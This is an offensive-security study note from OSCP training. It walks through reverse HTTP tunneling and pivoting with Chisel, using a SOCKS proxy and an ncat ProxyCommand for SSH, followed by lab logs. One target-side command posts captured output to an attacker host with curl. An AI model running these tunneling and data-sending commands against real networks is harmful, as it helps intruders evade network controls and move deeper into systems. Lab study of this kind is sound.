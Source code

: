 ```yaml
---
aliases:
  - HTTP tunneling
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - http_tunneling
  - http
  - tunneling
author: Mehdi N Tehrani
creat_date: 2024-01-04
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


Chisel can run on macOS, Linux, and Windows, and on various architectures on each. Older tools like [HTTPTunnel](http://http-tunnel.sourceforge.net/) offer similar tunneling functionality, but lack the flexibility and cross-platform capabilities of Chisel.

# Chisel
#chisel 
[Chisel - GitHub](https://github.com/jpillora/chisel)
[Chisel Download - GitHub](https://github.com/jpillora/chisel/releases)
[Chisel Usage - GitHub](https://github.com/jpillora/chisel#usage)

## Process
1. Transfer `chisel` to closest target; Chisel binary contains both server and client
2. on attacker machine listen on a port to serve reverse HTTP tunneling. 
	- The Chisel server on our Kali machine will listen on **TCP port** `1080`, **a SOCKS proxy port**.
	- All traffic sent to port `<attacker_lport>` will be passed back up the HTTP tunnel to the chisel client, where it will be forwarded to where it's addressed to.
```sh
chisel server --port <attacker_lport> --reverse
```
3. on target machine:
```sh
chisel client <attacker_ip>:<attacker_lport> R:socks &> /tmp/output; curl --data @/tmp/output http://<attacker_ip>:<attacker_lport>/
```
4. now we can interact through `<attacker_lport>` with the end target. 
#ssh #ssh_proxy_command #proxy_command
	- as SSH doesn't support SOCKS directly, but supports `ProxyCommand`, we need a tool that supports *SOCKS5* to use in the [ProxyCommand](https://man.openbsd.org/ssh_config#ProxyCommand)  argument to pass SSH traffic to port `1080` which chisel listens on:
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' <end_target_user>@<end_target>
```
#ncat 
We need [ncat](https://nmap.org/ncat/) for this, as netcat doesn't support connecting to proxy sockets.

![[Pasted image 20240104173023.png]]

### Issue with chisel
The installed chisel version `1.9.1-0kali1 (go1.21.3)`  doesn't seem to work on end target due to issues with [libc](https://www.gnu.org/software/libc/) installed: 
`tcpdump -nvvv` shows the following in the http request from chisel client:
```
/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]

```

After some investigations it's clear that we need to use chisel version `1.8.1 (go1.19.4)`
https://github.com/golang/go/issues/58550
https://github.com/GoogleContainerTools/distroless/issues/1342

### ncat
#ncat 
`sudo apt install ncat`


### chisel server logs
```sh
$ chisel server --port 8080 --reverse
2024/01/04 16:30:17 server: Reverse tunnelling enabled
2024/01/04 16:30:17 server: Fingerprint lklZDHOWAMpYCSFfWFYHGPQmBgkCdKaXupZpjiwSEF0=
2024/01/04 16:30:17 server: Listening on http://0.0.0.0:8080
2024/01/04 16:47:30 server: session#1: Client version (1.8.1) differs from server version (1.9.1-0kali1)
2024/01/04 16:47:30 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

### tcpdump logs
```
$ sudo tcpdump -nvvvi tun0 tcp port 8080
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:47:28.586659 IP (tos 0x0, ttl 61, id 15653, offset 0, flags [DF], proto TCP (6), length 60)
    192.168.240.63.40126 > 192.168.45.216.8080: Flags [S], cksum 0xac20 (correct), seq 1208034301, win 64240, options [mss 1361,sackOK,TS val 1892837577 ecr 0,nop,wscale 7], length 0
16:47:28.586708 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto TCP (6), length 60)
    192.168.45.216.8080 > 192.168.240.63.40126: Flags [S.], cksum 0x8af9 (correct), seq 2710331460, ack 1208034302, win 65160, options [mss 1460,sackOK,TS val 374605046 ecr 1892837577,nop,wscale 7], length 0
16:47:28.858248 IP (tos 0x0, ttl 61, id 15654, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.240.63.40126 > 192.168.45.216.8080: Flags [.], cksum 0xb549 (correct), seq 1, ack 1, win 502, options [nop,nop,TS val 1892837848 ecr 374605046], length 0
16:47:28.858387 IP (tos 0x0, ttl 61, id 15655, offset 0, flags [DF], proto TCP (6), length 277)
    192.168.240.63.40126 > 192.168.45.216.8080: Flags [P.], cksum 0x171a (correct), seq 1:226, ack 1, win 502, options [nop,nop,TS val 1892837848 ecr 374605046], length 225: HTTP, length: 225
        GET / HTTP/1.1
        Host: 192.168.45.216:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: xs0rWXw0GCXJ6QcE7B0o/g==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket

16:47:28.858394 IP (tos 0x0, ttl 64, id 37474, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.45.216.8080 > 192.168.240.63.40126: Flags [.], cksum 0xb352 (correct), seq 1, ack 226, win 508, options [nop,nop,TS val 374605318 ecr 1892837848], length 0
16:47:28.858817 IP (tos 0x0, ttl 64, id 37475, offset 0, flags [DF], proto TCP (6), length 181)
    192.168.45.216.8080 > 192.168.240.63.40126: Flags [P.], cksum 0xde75 (correct), seq 1:130, ack 226, win 508, options [nop,nop,TS val 374605319 ecr 1892837848], length 129: HTTP, length: 129
        HTTP/1.1 101 Switching Protocols
        Upgrade: websocket
        Connection: Upgrade
        Sec-WebSocket-Accept: ArPhix1hL3ay0bSCg3C9HeqiVtY=

16:47:28.858858 IP (tos 0x0, ttl 64, id 37476, offset 0, flags [DF], proto TCP (6), length 76)
    192.168.45.216.8080 > 192.168.240.63.40126: Flags [P.], cksum 0xa9d5 (correct), seq 130:154, ack 226, win 508, options [nop,nop,TS val 374605319 ecr 1892837848], length 24: HTTP
```